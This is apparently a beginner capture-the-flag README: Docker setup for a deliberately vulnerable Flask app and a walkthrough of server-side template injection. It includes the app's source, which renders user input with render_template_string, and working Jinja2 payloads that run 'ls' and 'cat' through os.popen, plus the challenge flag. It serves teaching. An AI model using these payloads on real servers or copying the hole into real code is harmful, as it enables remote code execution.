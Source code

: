 # SSTI-Intro

### Difficulty: Beginner

## Setting Up

Ensures that `Docker` is installed into your machine as this challenge requires Docker. If you're unsure how to do it, you can refer [here](https://www.kali.org/docs/containers/installing-docker-on-kali/) to install it into your Kali machine. Then, install the files `app.py` , `Dockerfile` and `flag-6fbbff92650117ea3994ead7b72dbda7.txt` into the same directory.

### Commands (Kali)
[1] `sudo docker build -t sstichall .`

[2] `sudo docker run -d sstichall`

[3] `sudo docker logs <The container id>`

Use the first IP provided by the command [3] to access the challenge as highlighted below.

![image](https://github.com/user-attachments/assets/a2dc8099-2cb9-42d9-a8d2-c34d04b245e8)

Challenge should look like this and you are ready to go!

![image](https://github.com/user-attachments/assets/71d4d057-c35f-4c21-b28f-efaa2f35bff9)

## Solution 
<details>


The challenge starts with a text box and allows user input. Then, we starts with the a simple text "hello world" and observe its response.

![image](https://github.com/user-attachments/assets/8c6da092-9fc2-4a3b-9054-d900ca44c47d)

The website seems to return our text back as a response. 

![image](https://github.com/user-attachments/assets/03732c9a-86e7-4042-9ea6-9877e978db85)

Let's analyze the source code and observe what kind of vulnerability does the server contains.

### Source Code (python)
```python

from flask import Flask, request, url_for, render_template_string

app=Flask(__name__)

@app.route('/', methods=('GET','POST'))
def index():
	try:
		if request.method=='POST':
			note=request.form['note']
			if note:
				return render_template_string(note)
			else:
				return('Please provide some text')
		return '''
			<form method="POST">
				Note:<input type="text" name="note">
				<input type="submit" value="Submit">
			</form>
		'''
	except:
		return('Please provide some text')

if __name__=='__main__':
	app.run(host='0.0.0.0',port= 5000,debug=True) 

```

We can see that the source code contains `render_template_string()` which is a Jinja2 web template engine function for Python that has a SSTI vulnerability. 
Let's try using a simple SSTI payload `{{7*7}}` and observe its behaviour.

![image](https://github.com/user-attachments/assets/d853ed2f-3c60-48bd-880a-be6fa23756ca)

The website returns `49`! That means it is confirmed that the website is vulnerable to SSTI.

![image](https://github.com/user-attachments/assets/26b6ae54-1bfe-4884-9df2-66fe944dbcea)

Let's use a SSTI payload like `{{request.application.__globals__.__builtins__.__import__('os').popen('ls').read()}}` and read the files in the server.

![image](https://github.com/user-attachments/assets/16b5e54c-64fe-4fc6-a4eb-b1bf843e9af2)

Now we know that there is a file called `flag-6fbbff92650117ea3994ead7b72dbda7.txt` so we can use this payload to read the content of the file `{{request.application.__globals__.__builtins__.__import__('os').popen('cat flag-6fbbff92650117ea3994ead7b72dbda7.txt').read()}}`. Then, we should be able to retrieved the flag.

![image](https://github.com/user-attachments/assets/676d9337-6f06-4d9d-b429-601bf1f311cf)

## Flag
>flag{9e21e40be1f2003d55c96d6407e28b01}

</details>
